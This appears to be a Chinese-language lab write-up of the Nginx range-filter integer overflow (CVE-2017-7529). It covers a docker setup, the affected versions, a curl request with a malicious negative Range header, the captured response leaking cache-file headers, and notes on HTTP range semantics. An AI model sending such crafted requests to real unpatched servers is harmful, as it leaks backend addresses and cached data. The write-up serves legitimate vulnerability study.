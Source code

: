 ```yaml
---
title: Nginx
encrypt: false
enc_pwd: askding
categories:
  - Kali
  - Exploit
date: 2021-04-07 20:48:12
top:
tags:
layout:
---
```

编写进度
- [x] 




# Nginx整数溢出漏洞 CVE-2017-7529
当使用nginx标准模块时，攻击者可以通过发送包含恶意构造 range 域的 header 请求，来获取响应中的缓存文件头部信息。在某些配置中，缓存文件头可能包含后端服务器的IP地址或其它敏感信息，从而导致信息泄露。

环境搭建参考 [CVE-2017-7529](https://github.com/liusec/CVE-2017-7529)
```zsh
docker pull medicean/vulapps:n_nginx_1
docker run -d -p 8000:80 medicean/vulapps:n_nginx_1
```

## 影响版本
* Nginx version 0.5.6 - 1.13.2
该漏洞影响所有 0.5.6 - 1.13.2版本内默认配置模块的Nginx只需要开启缓存攻击者即可发送恶意请求进行远程攻击造成信息泄露。

* 修复版本 Nginx version 1.13.3, 1.12.1



## 测试方法
	
* 命令行版
```zsh
curl -I  http://192.168.43.204:8000/proxy/demo.png -x 127.0.0.1:8080 # 查看文件大小 Content-Length: 16585
```
curl命令用法 请参考[curl-wget](https://askding.github.io/Tools/curl-wget.html)

```zsh

```

[CVE-2017-7259](https://github.com/MaxSecurity/CVE-2017-7529-POC/blob/master/CVE-2017-7529-POC.py)


## 测试原理

*HTTP Range范围请求-响应包*
```bash
curl -i   http://192.168.43.204:8000/proxy/demo.png -x 127.0.0.1:8080  -r -17208,-9223372036854758600 
```
```http
GET /proxy/demo.png HTTP/1.1                      # HTTP版本必须在1.1及以上版本
Host: 192.168.43.204:8000
Range: bytes=-17208,-9223372036854758600          # 指定Range字段
User-Agent: curl/7.64.1
Accept: */*
Connection: close



HTTP/1.1 206 Partial Content                     # 表明服务器正确处理了请求并返回Range指定的数据区间
Server: nginx/1.13.1
Date: Wed, 07 Apr 2021 15:04:48 GMT
Content-Type: multipart/byteranges; boundary=00000000000000000025`   # 多个数据区间用multipart/byteranges; boundary标识
Connection: close
Last-Modified: Mon, 17 Jul 2017 02:19:08 GMT
ETag: "40c9-5547a060fdf00"
X-Proxy-Cache: HIT


--00000000000000000025
Content-Type: image/png                          # 指定媒体类型 
Content-Range: bytes -623-16584/16585            # 标识返回指定文件的部分内容在整个文件中所处的位置

 :Ìm`                    lY    âÉm`    ä.åä  {v"40c9-5547a060fdf00"                                                                                                                                                                                                                                                                 
KEY: httpGET192.168.43.204/proxy/demo.png
HTTP/1.1 200 OK
Date: Wed, 07 Apr 2021 15:04:02 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Mon, 17 Jul 2017 02:19:08 GMT
ETag: "40c9-5547a060fdf00"
Accept-Ranges: bytes                           # 表示支持服务器支持范围请求
Content-Length: 16585                          # 标识返回指定文件的部分内容在整个文件中所处的位置
Content-Type: image/png                        # 指定媒体类型
Connection: close

PNG

   
IHDR  Ì   `   rB§  iCCPICC Profile  HWXSÉ[R	-)¡w¤Wé½H!	J bG\*"XÑUE×È¢"bgìýÊÊºX°¡ò&t}í{'ßÜùsæ3ÿ;@Ñ*Ã/Dù2¤>yøqF,¶0Ï'`@ëÿ.ïnDÜ_³Çú×ñÿ*Ê®
%Ja.aQ
B (
Â	M](
B (øÿÆHs&*    IEND®B`
--00000000000000000027
Content-Type: image/png                                               # 指定媒体类型
Content-Range: bytes -9223372036854742015-16584/16585`                 # 标识返回指定文件的部分内容在整个文件中所处的位置
```
*详解*
  * [ ] 状态码
  	* `HTTP 206 Partial Content`成功状态响应代码表示请求已成功，服务器响应完成且传输了请求指定文件的数据区间，（请求包的 Range 字段指定的，响应包中的`Content-Range`标识
	 * `416 Requested Range Not Satisfiable` 表示请求的范围越界（范围值超过了资源的大小）
	 * `200 OK` 表示服务器不支持范围请求

  * [ ] HTTP版本要求  需要HTTP/1.1及以上版本支持
  * [ ] 请求包中Range字段 （通过`If-Range == ETag` 或者 `If-Range == Last-Modifled `来区分资源文件是否变动，如果源文件有改动，则重新走下载流程）
  ```html
  Range: bytes=20- ：获取请求中第 20 个字节之后数据；
  Range: bytes= -50 ：获取请求中最后 50 个字节的数据；
  Range: bytes=40-100 ：获取请求中第 40 个字节到第 100 个字节之间的数据。
  Range: bytes=0-50, 100-150  ：获取多个长度的数据
  ```
  * [ ] 响应包中对应字段
	  * `Accept-Ranges`字段要求   *Accept-Ranges: bytes*字段则表示支持服务器支持范围请求，(不支持范围请求则为*Accept-Ranges: none*)
	  * `Content-Type` 说明媒体类型 包含多个数据区间，`Content-Type: multipart/byteranges; boundary=0000000xxxx`
	  * `Content-Length` 标识指定文件总字节数， 
    * `Content-Range`标识返回指定文件的部分内容在整个文件中所处的位置




参考
[CVE-2017-7529](https://github.com/liusec/CVE-2017-7529)
[CVE-2017-7529-POC](https://github.com/MaxSecurity/CVE-2017-7529-POC)
[HTTP range请求](https://www.biancheng.net/http/range.html)
[Nginx range 过滤器整形溢出漏洞](https://www.anquanke.com/post/id/86421)